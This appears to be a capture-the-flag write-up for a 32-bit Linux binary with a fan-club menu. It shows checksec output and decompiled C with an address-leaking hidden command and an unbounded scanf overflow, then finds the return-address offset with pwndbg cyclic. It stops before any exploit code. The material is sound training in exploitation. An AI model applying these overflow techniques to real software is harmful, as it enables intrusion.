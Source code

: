 ![alt text](image.png)

What you need to solve :
- Basic knowledge of c
- Basic knowledge of stack
- Basic ROP

---

Starting the challenge we were given a file we should check the file type first.

```sh
❯ file chall
chall: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=bd5221b68d53722605f69cbfe72f5b5a778ad8cf, for GNU/Linux 3.2.0, not stripped
❯ checksec chall
[*] '/home/renko/temp/csc/chall'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

So from the information above we can see that the ELF file is a 32bit elf thats not stripped, and there is PIE enabled which we have to keep that in mind.

But lets decompile the program first.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  time_t v3; // eax
  char s[100]; // [esp+0h] [ebp-6Ch] BYREF
  int *p_argc; // [esp+64h] [ebp-8h]

  p_argc = &argc;
  v3 = time(0);
  srand(v3);
  adminPass = rand() % 90000 + 10000;
  while ( 1 )
  {
    while ( 1 )
    {
      puts("Welcome to my HOLOLIVE fanbase");
      puts("The best fanbase ever created");
      puts("what do you want to do?");
      puts("1. Show profile");
      puts("2. List favourites");
      puts("3. List talents");
      puts("4. Watch a live");
      puts("5. Manage your account");
      puts("6. Exit");
      fgets(s, 100, stdin);
      if ( strcmp(s, "1\n") )
        break;
      showProfile();
    }
    if ( !strcmp(s, "6\n") )
      break;
    if ( !strcmp(s, "4\n") )
    {
      system("clear");
      printArt();
      getchar();
    }
    else if ( !strcmp(s, "2\n") )
    {
      printf("\n1. Kroni\n2. Biboo\n3. Fuwawa and Mococo");
      getchar();
    }
    else if ( !strcmp(s, "3\n") )
    {
      system("clear");
      puts("Hololive Talents:");
      puts("1. Tokino Sora");
      puts("2. Roboco-san");
      puts("3. Sakura Miko");
      puts("4. Hoshimachi Suisei");
      puts("5. Azuki Kiryu");
      puts("6. Inugami Korone");
      puts("7. Nekomata Okayu");
      puts("8. Usada Pekora");
      puts("9. Shiranui Flare");
      puts("10. Kiryuu Coco");
      puts("11. Amane Kanata");
      puts("12. Kiryu Coco");
      puts("13. Tsukumo Sana");
      puts("14. Mori Calliope");
      puts("15. Takanashi Kiara");
      puts("16. Ouro Kronii");
      puts("17. Nanashi Mumei");
      puts("18. Hakos Baelz");
      puts("19. Irys");
      puts("20. Michael Aurelio");
      getchar();
    }
    else if ( !strcmp(s, "5\n") )
    {
      manage_acc();
    }
    else if ( !strcmp(s, "adminBetaSecretCommand\n") )
    {
      printf("%p\n", list_all_password);
      printf("%p", admin_get_secret);
    }
  }
  return 0;
}
```

So there are 1 interesting function that is the `adminBetaSecretCommand` command, where this command will leak 2 addresses called `list_all_password` and `admin_get_secret`.

```c
int list_all_password()
{
  _BYTE v1[68]; // [esp+0h] [ebp-48h] BYREF

  puts("auric -> \"kronipleasenoticeme1\"");
  printf("admin -> \"%d\"\n", adminPass);
  return __isoc99_scanf("%s", v1);
}

int admin_get_secret()
{
  char s[256]; // [esp+8h] [ebp-110h] BYREF
  int v2; // [esp+108h] [ebp-10h] BYREF
  FILE *stream; // [esp+10Ch] [ebp-Ch]

  puts("Username : admin");
  puts("Password : ");
  __isoc99_scanf("%d", &v2);
  if ( v2 == adminPass )
  {
    stream = fopen("kronichiwa.hololive", "r");
    if ( fgets(s, 256, stream) )
      puts(s);
    fclose(stream);
  }
  getchar();
  return getchar();
}
```

So from this we already know the flow on getting the flag, that is first we need to get into `list_all_password()` to leak the admin password then go to `admin_get_secret()` to submit the admin password and get the flag.

But first we have to find a place thats vulnerable to ROP!

In the `5` choice we should check the decompiled code first.

```c
int manage_acc()
{
  _BYTE v1[68]; // [esp+0h] [ebp-48h] BYREF

  puts("Account manager BETA 1.0");
  puts("Change Username [still on BETA]");
  return __isoc99_scanf("%s", v1);
}
```

as you can see the `manage_acc()` is vulnerable to ROP because its using `scanf()` which will take user input no matter what until it sees a newline.

---

First we need to find the offset of the amount of bytes before the ret address in the function, i will be using cyclic to find the value.

```sh
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

![alt text](image-1.png)

As you can see the value inside of ebp is `saaa` we can try to find which offset that is.

```sh
pwndbg> cyclic -l saaa
Finding cyclic pattern of 4 bytes: b'saaa' (hex: 0x73616161)
Found at offset 72
```

This tells us the offset of the ebp!

We can solve this already with all the information that we have.



